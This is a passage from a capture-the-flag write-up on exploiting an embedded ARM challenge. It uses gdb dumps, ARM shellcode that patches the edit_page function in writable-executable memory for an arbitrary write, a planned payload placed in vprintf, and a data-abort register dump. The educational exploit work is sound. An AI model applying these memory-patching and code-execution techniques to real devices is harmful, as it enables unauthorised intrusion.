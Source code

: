 ```
(gdb) x/wx 0x44006a5
0x44006a5:      0x04eb0000
```

The address 0x44006a5 was further choosen because it lies within the code of the edit_page. Unlike most modern systems,
embedded devices rarely enable modern exploit mitigations.  While this challenge did enable some memory protections, it did
map the pages as both writable and executable.  Thus, when I next edit a page, I'm changing the code in edit_page.

The code I've choosen to write to the edit page function is shown below. Since I'm changing the code immediately after the
atoi call that determines the page number, I can use that to set the r0 register for our code.  The code I write, takes the
R0 value given, and calls get_input (address 0x56574 in IDA) on it.  This function reads from the user, so effectively I'm
loading code I want at an arbitrary address.

```
.byte 0x90 # Complete the 0x04 byte at 0x44006a8 with these 3 bytes to form a: mov R9, #4 (for a nop)
.byte 0xa0
.byte 0xe3
mov R1, 0x1000
call get_inputs
ADD SP, SP, #400
LDMFD SP!, {R4-R6,PC}
```

## Code execution

Now that I've achieved an arbitrary write to memory, it's trivial to obtain code execution.  I choose to write my payload
to 0x4403e14, which was inside the vprintf function.  Once the call to edit_pages returns and tries to print something, our
code will execute.

From there it should be a simple matter of writing a payload to read from address 0x4000000.  Let's try that and see what
happens:
```
DATA ABT
Fault Type: Permission
Domain: 0
Data Fault Addr: 0x4000000
{
	r0 = 0x0
	r1 = 0x4000000
	r2 = 0x440f590
	r3 = 0x44001e0
	r4 = 0x4000000
	r5 = 0x6400008
	r6 = 0x440fc40
	r7 = 0x0
	r8 = 0x0
	r9 = 0x4
	r10 = 0x0
	r11 = 0x7fffb44
	r12 = 0x1010101
	lr = 0x4403848
}
```
